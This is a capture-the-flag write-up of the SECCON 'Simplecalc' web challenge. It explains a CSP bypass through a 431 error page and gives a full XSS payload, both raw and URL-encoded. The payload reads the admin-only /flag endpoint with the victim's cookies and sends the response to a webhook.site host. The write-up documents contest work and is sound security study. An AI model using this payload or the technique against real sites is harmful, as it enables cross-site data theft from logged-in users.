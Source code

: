 # Simplecalc - Web problem - writeup by Vie

> (132 pt)
> author:Arkwarmup
>
>This is a simplest calculator app.
> 
> Note: Don't forget that the target host is localhost from the admin bot.
>
> http://simplecalc.seccon.games:3000
>
> [simplecalc.tar.gz](./simplecalc.tar.gz) 6723d8fd7db93c5c0181845cfadd5048f4fdd267



## Overview

Self-explanatory app - you can submit equations which are processed into a client-side `eval`, your expression of which will appear in an `expr?=` GET query to index the result. 

The source is minimal, so we can focus on the good parts easily: 

```js
app.use((req, res, next) => {
  const js_url = new URL(`http://${req.hostname}:${PORT}/js/index.js`);
  res.header('Content-Security-Policy', `default-src ${js_url} 'unsafe-eval';`);
  next();
});
```

The app applies a CSP to, ostensibly, all locations of the app, with a `default-src` set to `http://simplecalc.seccon.games:3000/js/index/js` (or `localhost` if running locally, or according to the bot) allowing it to `unsafe-eval`.

```js
app.get('/flag', (req, res) => {
  console.log(req.cookies.token);
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
```

Flag is in an endpoint, and you need both an admin token and the presence of an X-FLAG header to get it. The header is easy but the token means only the admin will actually be able to see the flag.

```js
app.post('/report', reportLimiter, async (req, res) => {
  const { expr } = req.body;

  const url = new URL(`http://localhost:${PORT}/`)
  url.searchParams.append('expr', expr);

  try {
    await visit(url);
    return res.sendStatus(200);
  } catch (err) {
    console.error(err);
    return res.status(500).send('Something wrong');
  }
});
```

Admin only visits sites under the challenge domain. No cross-site shenanigans.

In bot.js: 

```js
   await page.setCookie({
      name: 'token',
      value: ADMIN_TOKEN,
      domain: `${APP_HOST}:${APP_PORT}`,
      httpOnly: true
    });
```

The ADMIN_TOKEN is httpOnly, so we can't steal it for ourselves.


## Unintended Attack

First and foremost, you can bypass the CSP by forcing a page under the simplecalc/localhost domain by navigating to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>` and the length of your GET query will force a status code 431. The content of the page is irrelevant for our purposes, what's relevant is that the 431'd page lacks the CSP header. This is a page under the correct domain but with no CSP, so we can utilize our `fetch` or `xhr` XSS payloads freely. In order to attack this, you open an iframe with its src set to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>`, append it to the document, and then when it loads, access its contentWindow to then access the page's `eval`. From there you get a straightforward XSS.


Put this in the `?expr=` query: 


```js
var gib=document.createElement('iframe');gib.src="http://localhost:3000/js/index.js?"+"a".repeat(0x5000);document.body.appendChild(gib);gib.onload=function(){gib.contentWindow.eval('x=new XMLHttpRequest;x.onload=function(){t=this.responseText;y=new XMLHttpRequest;y.open("GET","http://webhook.site/1ec04c0d-14c5-41d9-80cd-dba3875c48d1?"+t);y.send();};x.open("GET","http://localhost:3000/flag");x.setRequestHeader("X-FLAG","ok");x.withCredentials=true;x.send();')}

```

And submit the calculated result to the admin:

```
http://simplecalc.seccon.games:3000?expr=var%20gib%3Ddocument.createElement%28%27iframe%27%29%3Bgib.src%3D%22http%3A%2F%2Flocalhost%3A3000%2Fjs%2Findex.js%3F%22%2B%22a%22.repeat%280x5000%29%3Bdocument.body.appendChild%28gib%29%3Bgib.onload%3Dfunction%28%29%7Bgib.contentWindow.eval%28%27x%3Dnew%20XMLHttpRequest%3Bx.onload%3Dfunction%28%29%7Bt%3Dthis.responseText%3By%3Dnew%20XMLHttpRequest%3By.open%28%22GET%22%2C%22http%3A%2F%2Fwebhook.site%2F1ec04c0d-14c5-41d9-80cd-dba3875c48d1%3F%22%2Bt%29%3By.send%28%29%3B%7D%3Bx.open%28%22GET%22%2C%22http%3A%2F%2Flocalhost%3A3000%2Fflag%22%29%3Bx.setRequestHeader%28%22X-FLAG%22%2C%22ok%22%29%3Bx.withCredentials%3Dtrue%3Bx.send%28%29%3B%27%29%7D
```

And wait for flag: `SECCON{service_worker_is_powerfull_49a3b7bf6d2ae18d}` _Oh_, service workers, huh. My unintended soln was pretty fun to do too though. :>